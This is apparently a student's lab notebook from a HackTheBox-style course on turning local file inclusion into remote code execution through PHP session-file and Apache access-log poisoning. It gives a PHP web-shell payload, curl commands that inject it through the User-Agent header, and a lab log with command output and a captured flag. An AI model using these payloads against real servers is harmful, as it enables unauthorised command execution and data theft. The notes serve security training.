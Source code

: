 # Log Poisoning

Principle : injection of malicious PHP file which will be written in a log file and then executed

Requirement : PHP function needs to have the writing rights on log files

## PHP Session Poisoning

The PHPSESSID cookies is used by the application to track the activity of a specific user.

These details are stored in session files on the back-end :
- /var/lib/php/sessions/ on Linux
- C:\Windows\Temp\ on Windows

The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix.

If PHPSESSID=el4ukv0kqbvoirg7nkp4dncpk3 :
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

### Check our PHPSESSID

If PHPSESSID=nhhv8i0o6ua4g88bkdl9u1fdsd
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

Try to change a value (for example the page) and see if it changes on our session file :
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning

And then :

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd


Poisoning with a shell :
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

--> We have to poison the session file at each new command

## Server Log Poisoning

### Check access logs

http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log

### Use Burp Suite to intercept our earlier LFI request and modify the User-Agent header to Apache Log Poisoning

User-Agent : <?php system($_GET["cmd"]); ?>

Also possible by using cURL :
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id

We can use it on various system logs :
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log

--> We should first attempt reading these logs through LFI, and if we do have access to them
--> Can also use SSH or FTP services if they are exposed to us

## LAB

http://83.136.251.235:48611/

### PHPSSEID Poisoning

Cookie: PHPSESSID=bgsa1umh0ch4givtc1gr78ofo8

http://83.136.251.235:48611/index.php?language=/var/lib/php/sessions/sess_bgsa1umh0ch4givtc1gr78ofo8

selected_language|s:53:"/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd";preference|s:7:"Spanish";

http://83.136.251.235:48611/index.php?language=session_poisoning

selected_language|s:17:"session_poisoning";preference|s:7:"Spanish";

http://83.136.251.235:48611/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

http://83.136.251.235:48611/index.php?language=/var/lib/php/sessions/sess_bgsa1umh0ch4givtc1gr78ofo8&cmd=pwd

selected_language|s:29:"/var/www/html ";preference|s:7:"Spanish";

### Log file poisoning

http://83.136.251.235:48611/index.php?language=/var/log/apache2/access.log

--> OK

10.30.12.138 - - [01/Jan/2024:12:19:30 +0000] "GET / HTTP/1.1" 200 1429 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36" 
...

Burp :

User-Agent : <?php system($_GET["cmd"]); ?>

10.30.12.138 - - [01/Jan/2024:12:32:34 +0000] "GET /index.php?language=/var/log/apache2/access.log HTTP/1.1" 200 1381 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36"

http://83.136.251.235:48611/index.php?language=/var/log/apache2/access.log&cmd=ls -l /

--> Failed : Error 500 (change TARGET)

curl -s "http://94.237.56.188:56610/index.php" -A "<?php system($_GET[cmd]); ?>"

http://94.237.56.188:56610/index.php?language=/var/log/apache2/access.log&cmd=id

--> Failed

Cookie: PHPSESSID=s24fad3sfq22u1aoaa84evqvao

http://94.237.56.188:56610/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

http://94.237.56.188:56610/index.php?language=/var/lib/php/sessions/sess_s24fad3sfq22u1aoaa84evqvao&cmd=ls -l /

selected_language|s:29:"total 60 lrwxrwxrwx 1 root root 7 Jul 20 2020 bin -> usr/bin drwxr-xr-x 2 root root 4096 Apr 15 2020 boot -rw-r--r-- 1 root root 34 Mar 25 2022 c85ee5082f4c723ace6c0796e3a3db09.txt drwxr-xr-x 5 root root 360 Jan 1 12:35 dev drwxr-xr-x 1 root root 4096 Feb 14 2021 etc drwxr-xr-x 2 root root 4096 Apr 15 2020 home lrwxrwxrwx 1 root root 7 Jul 20 2020 lib -> usr/lib lrwxrwxrwx 1 root root 9 Jul 20 2020 lib32 -> usr/lib32 lrwxrwxrwx 1 root root 9 Jul 20 2020 lib64 -> usr/lib64 lrwxrwxrwx 1 root root 10 Jul 20 2020 libx32 -> usr/libx32 drwxr-xr-x 2 root root 4096 Jul 20 2020 media drwxr-xr-x 2 root root 4096 Jul 20 2020 mnt drwxr-xr-x 2 root root 4096 Jul 20 2020 opt dr-xr-xr-x 417 root root 0 Jan 1 12:35 proc drwx------ 1 root root 4096 Aug 19 2020 root drwxr-xr-x 1 root root 4096 Feb 14 2021 run lrwxrwxrwx 1 root root 8 Jul 20 2020 sbin -> usr/sbin drwxr-xr-x 2 root root 4096 Jul 20 2020 srv dr-xr-xr-x 13 root root 0 Jan 1 12:35 sys drwxrwxrwt 1 root root 4096 Jan 1 12:35 tmp drwxr-xr-x 1 root root 4096 Jul 20 2020 usr drwxr-xr-x 1 root root 4096 Aug 19 2020 var ";preference|s:7:"Spanish";

http://94.237.56.188:56610/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E

http://94.237.56.188:56610/index.php?language=/var/lib/php/sessions/sess_s24fad3sfq22u1aoaa84evqvao&cmd=cat /c85ee5082f4c723ace6c0796e3a3db09.txt

selected_language|s:29:"HTB{1095_5#0u1d_n3v3r_63_3xp053d} ";preference|s:7:"Spanish";

83.136.251.235:43417
http://83.136.251.235:43417/index.php?language=/var/log/apache2/access.log

curl -i -v http://83.136.251.235:46629 6 -A "<?php system('ls -l /'); ?>"

http://83.136.251.235:46629/index.php?language=/var/log/apache2/access.log

10.30.12.138 - - [02/Jan/2024:11:49:31 +0000] "GET / HTTP/1.1" 200 3001 "-" "total 60 lrwxrwxrwx 1 root root 7 Jul 20 2020 bin -> usr/bin drwxr-xr-x 2 root root 4096 Apr 15 2020 boot -rw-r--r-- 1 root root 34 Mar 25 2022 c85ee5082f4c723ace6c0796e3a3db09.txt drwxr-xr-x 5 root root 360 Jan 2 11:48 dev drwxr-xr-x 1 root root 4096 Feb 14 2021 etc drwxr-xr-x 2 root root 4096 Apr 15 2020 home lrwxrwxrwx 1 root root 7 Jul 20 2020 lib -> usr/lib lrwxrwxrwx 1 root root 9 Jul 20 2020 lib32 -> usr/lib32 lrwxrwxrwx 1 root root 9 Jul 20 2020 lib64 -> usr/lib64 lrwxrwxrwx 1 root root 10 Jul 20 2020 libx32 -> usr/libx32 drwxr-xr-x 2 root root 4096 Jul 20 2020 media drwxr-xr-x 2 root root 4096 Jul 20 2020 mnt drwxr-xr-x 2 root root 4096 Jul 20 2020 opt dr-xr-xr-x 472 root root 0 Jan 2 11:48 proc drwx------ 1 root root 4096 Aug 19 2020 root drwxr-xr-x 1 root root 4096 Feb 14 2021 run lrwxrwxrwx 1 root root 8 Jul 20 2020 sbin -> usr/sbin drwxr-xr-x 2 root root 4096 Jul 20 2020 srv dr-xr-xr-x 13 root root 0 Jan 2 11:48 sys drwxrwxrwt 1 root root 4096 Jan 2 11:48 tmp drwxr-xr-x 1 root root 4096 Jul 20 2020 usr drwxr-xr-x 1 root root 4096 Aug 19 2020 var "

curl -i -v http://83.136.251.235:46629 6 -A "<?php system('cat /c85ee5082f4c723ace6c0796e3a3db09.txt'); ?>"

10.30.12.138 - - [02/Jan/2024:11:51:47 +0000] "GET / HTTP/1.1" 200 3001 "-" "HTB{1095_5#0u1d_n3v3r_63_3xp053d} "

